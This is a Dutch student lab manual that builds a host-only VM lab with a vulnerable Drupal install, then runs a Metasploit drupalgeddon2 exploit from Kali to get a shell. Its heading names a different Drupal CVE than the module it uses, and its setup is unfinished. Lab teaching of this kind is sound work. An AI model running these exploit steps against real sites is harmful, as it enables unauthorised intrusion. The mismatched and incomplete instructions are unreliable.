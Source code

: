 # CSV-NPE-2223

Cybersecurity &amp; Virtualisation - NPE Opdracht 2022-2023

# Deployment manual

## 1. VM installaties

### Informatie

- De VM's zijn geconfigureerd met een host-only netwerk adapter
- De installatie vereist een internet connectie

### Setup op host machine

- Download volgende vdi-bestanden van osboxes.org:

  - [Kali Linux 2022.3](https://sourceforge.net/projects/osboxes/files/v/vb/25-Kl-l-x/2022.3/64bit.7z/download)
  - [Debian 11 - Desktop](https://sourceforge.net/projects/osboxes/files/v/vb/14-D-b/11/Workstation/64bit.7z/download)

- Unzip de vdi-bestanden rechtstreeks in de download folder de huidige gebruiker
- Check of de vdi-bestanden de volgende namen hebben:

  - Kali Linux 2022.3 (64bit).vdi
  - Debian 11 (64bit).vdi

- Voer de volgende commando's uit in powerhshell van de host machine:

  ```powershell
    ./vm-installation.ps1
  ```

## 2. Drupal installatie

### Drupal 7.x en 8.x - - RESTful Web Services unserialize() Remote Command Execution [Exploit](https://nvd.nist.gov/vuln/detail/CVE-2019-6340)

### Informatie

- De exploit is beschikbaar op [exploit-db](https://www.exploit-db.com/exploits/46510)
- De exploit veroorzaakt een unserialize() fout in de `Drupal 7/8 RESTful Web Services` module, waardoor we een remote command execution kunnen uitvoeren
- Deze manual gebruikt de `drupal_drupalgeddon2` [module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/unix/webapp/drupal_drupalgeddon2.md) van metasploit om de exploit uit te voeren.

### Setup op Debian VM

- Log in op de Debian VM met de volgende gegevens:

  - Username: `osboxes`
  - Password: `osboxes.org`

- Installeer de mysql repository en selecteer in de prompt `debian buster` en en `mysql-5.7` als versie van mysql:

  ```bash
    #sudo apt-get install lsb-release gnupg
    wget https://dev.mysql.com/get/mysql-apt-config_0.8.18-1_all.deb
    sudo dpkg -i mysql-apt-config_0.8.18-1_all.deb
  ```

##TODO: rest modules downloaden

- Kies in de prompt voor debian buster (10) en mysql-5.7 als versie van mysql
- Na de installatie is drupal beschikbaar op `http://localhost:8080`
- Configureer Drupal met de volgende gegevens:

  - Database name: `drupal`
  - Database username: `drupal`
  - Database password: `drupal`
  - Database host: `localhost`
  - Database port: `3306`
  - Database driver: `mysql`
  - Database prefix: `drupal_`
  - Site name: `drupal`
  - Site email address: `drupal@localhost`
  - Username: `drupal`
  - Password: `drupal`
  - Default country: `Belgium`
  - Default timezone: `Europe/Brussels`

- Activeer de module `RESTful Web Services` in de `Extend` pagina van Drupal
- Verwijder de standaard web pagina in /var/www/html:

  ```bash
    sudo rm -rf /var/www/html/index.html
  ```

## 3. Metesploit

### Exploit op Kali VM

- Log in op de Kali VM met de volgende gegevens:

  - Username: `osboxes`
  - Password: `osboxes.org`

- Open een terminal en voer volgende commando's uit:

  ```bash
    sudo msfdb init
    sudo msfconsole
  ```

- Voer volgende commando's uit in de metasploit console om de remote host te in te stellen:

  ```bash
    use exploit/unix/webapp/drupal_drupalgeddon2
    set RHOSTS 192.168.56.x
    set VERBOSE true
    check
  ```

- Voer volgende commando's uit in de metasploit console om de exploit uit te voeren:

  ```bash
    run
  ```

- Als de exploit succesvol is uitgevoerd, kan je een shell openen met volgende commando's:

  ```bash
    sessions -i 1
    whoami
  ```
